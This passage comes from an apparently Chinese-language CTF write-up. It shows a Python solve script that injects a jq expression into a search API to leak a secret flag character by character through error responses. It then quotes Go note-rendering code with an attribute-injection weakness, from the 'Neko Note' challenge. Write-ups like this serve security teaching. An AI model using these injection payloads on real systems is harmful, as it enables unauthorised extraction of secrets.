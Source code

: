 ``` js
    res = httpx.get(
        f"{BASE_URL}/api/search",
        params={
            "keys": "name",
            "conds": ",".join([
                "\\ in name",
                f"))] + [if (env.FLAG | startswith({make_str(prefix)})) then error({make_str('x')}) else 0 end] # in name"
            ]),
        },
    )
    return res.json()["error"] == "something wrong"


known = "zer0pts{"
while not known.endswith("}"):
    for c in CHARS:
        if is_ok(known + c):
            known += c
            break
    print(known)
print("Flag: " + known)
```

### Neko Note (26 solves)

又是一個經典 note app，核心程式碼如下：

``` go
var linkPattern = regexp.MustCompile(`\[([0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[0-9a-f]{4}-[0-9a-f]{12})\]`)

// replace [(note ID)] to links
func replaceLinks(note string) string {
  return linkPattern.ReplaceAllStringFunc(note, func(s string) string {
    id := strings.Trim(s, "[]")

    note, ok := notes[id]
    if !ok {
      return s
    }

    title := html.EscapeString(note.Title)
    return fmt.Sprintf(
      "<a href=/note/%s title=%s>%s</a>", id, title, title,
    )
  })
}

// escape note to prevent XSS first, then replace newlines to <br> and render links
func renderNote(note string) string {
  note = html.EscapeString(note)
  note = strings.ReplaceAll(note, "\n", "<br>")
  note = replaceLinks(note)
  return note
}
```
